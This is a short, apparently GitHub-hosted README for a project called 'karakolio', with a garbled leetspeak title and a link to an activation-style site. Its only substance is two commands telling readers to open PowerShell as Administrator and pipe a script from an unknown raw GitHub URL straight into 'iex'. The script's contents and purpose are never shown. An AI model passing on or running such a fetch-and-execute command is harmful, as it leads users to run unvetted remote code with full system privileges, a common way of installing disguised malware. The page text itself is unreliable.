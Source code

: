 # karakolio Wina 11 eb3sh3 1 mn00 d4ug1 k@t0 n3g0

- [developing](https://get.activated.win/)

# Installing by using PowerShell as Administrator

```cmd
irm https://raw.githubusercontent.com/asc3t1c/karakolio/refs/heads/main/karakolio.win | iex
```
- Optionally

```cmd
powershell -Command "irm https://raw.githubusercontent.com/asc3t1c/karakolio/refs/heads/main/karakolio.ps1 | iex"
```

